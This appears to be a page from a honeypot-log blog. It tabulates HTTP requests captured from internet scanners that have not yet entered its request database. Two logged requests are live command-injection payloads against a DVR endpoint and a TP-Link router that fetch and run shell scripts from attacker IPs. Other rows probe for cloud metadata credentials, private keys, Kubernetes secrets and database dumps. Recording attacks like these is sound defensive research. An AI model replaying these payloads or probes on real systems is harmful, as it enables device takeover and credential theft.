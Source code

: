| 104.167.221.114 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%20%7C%7C%20cd%20%2Fvar%2Frun%20%7C%7C%20cd%20%2Fmnt%20%7C%7C%20cd%20%2Froot%20%7C%7C%20cd%20%2F%3B%20wget%20http%3A%2F%2F104.167.221.114%2Ftbkdvr.sh%3B%20chmod%20777%20tbkdvr.sh%3B%20sh%20tbkdvr.sh%3B%20tftp%20104.167.221.114%20-c%20get%20tbkdvr1.sh%3B%20chmod%20777%20tbkdvr1.sh%3B%20sh%20tbkdvr1.sh%3B%20tftp%20-r%20tbkdvr2.sh%20-g%20104.167.221.114%3B%20chmod%20777%20tbkdvr2.sh%3B%20sh%20tbkdvr2.sh%3B%20ftpget%20-v%20-u%20anonymous%20-p%20anonymous%20-P%2021%20104.167.221.114%20tbkdvr1.sh%20tbkdvr1.sh%3B%20sh%20tbkdvr1.sh%3B%20rm%20-rf%20tbkdvr.sh%20tbkdvr1.sh%20tbkdvr2.sh%20tbkdvr1.sh HTTP/1.1 |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                               |
|-----:|----------------------:|:------------------------------------------------------------------------------------------------------|
|   72 |                     4 | GET /ssi.cgi/Login.htm HTTP/1.1                                                                       |
|   88 |                     3 | GET /v1.0/8888/sys.html?way=runway HTTP/1.1                                                           |
|  152 |                     1 | GET /public/storage.json HTTP/1.1                                                                     |
|  153 |                     1 | GET /public/shell.php HTTP/1.1                                                                        |
|  154 |                     1 | GET /public/s3.json HTTP/1.1                                                                          |
|  157 |                     1 | GET /latest/meta-data HTTP/1.1                                                                        |
|  158 |                     1 | GET /latest/meta-data/iam/info HTTP/1.1                                                               |
|  159 |                     1 | GET /latest/meta-data/iam/security-credentials/ HTTP/1.1                                              |
|  160 |                     1 | GET /latest/user-data HTTP/1.1                                                                        |
|  163 |                     1 | GET /login.bak.php HTTP/1.1                                                                           |
|  164 |                     1 | GET /login.old.php HTTP/1.1                                                                           |
|  167 |                     1 | GET /mail-config.php HTTP/1.1                                                                         |
|  169 |                     1 | GET /public/s3-bucket.json HTTP/1.1                                                                   |
|  170 |                     1 | GET /public/execute.php HTTP/1.1                                                                      |
|  171 |                     1 | GET /public/env.js HTTP/1.1                                                                           |
|  172 |                     1 | GET /public/db_dump.sql HTTP/1.1                                                                      |
|  176 |                     1 | GET /internal/proxy HTTP/1.1                                                                          |
|  177 |                     1 | GET /jenkins.yml HTTP/1.1                                                                             |
|  179 |                     1 | GET /js/api.js HTTP/1.1                                                                               |
|  184 |                     1 | GET /k8s/eks/credentials HTTP/1.1                                                                     |
|  185 |                     1 | GET /k8s/eks/secrets/aws HTTP/1.1                                                                     |
|  186 |                     1 | GET /k8s/eks/token.json HTTP/1.1                                                                      |
|  187 |                     1 | GET /k8s/metadata HTTP/1.1                                                                            |
|  188 |                     1 | GET /k8s/secrets/aws HTTP/1.1                                                                         |
|  189 |                     1 | GET /mailer_config.php HTTP/1.1                                                                       |
|  190 |                     1 | GET /k8s/secrets/iam HTTP/1.1                                                                         |
|  191 |                     1 | GET /keys/private.pem HTTP/1.1                                                                        |
|  192 |                     1 | GET /keys/public.pem HTTP/1.1                                                                         |
|  194 |                     1 | GET /kubernetes/eks/secrets.json HTTP/1.1                                                             |
|  195 |                     1 | GET /kubernetes/metadata HTTP/1.1                                                                     |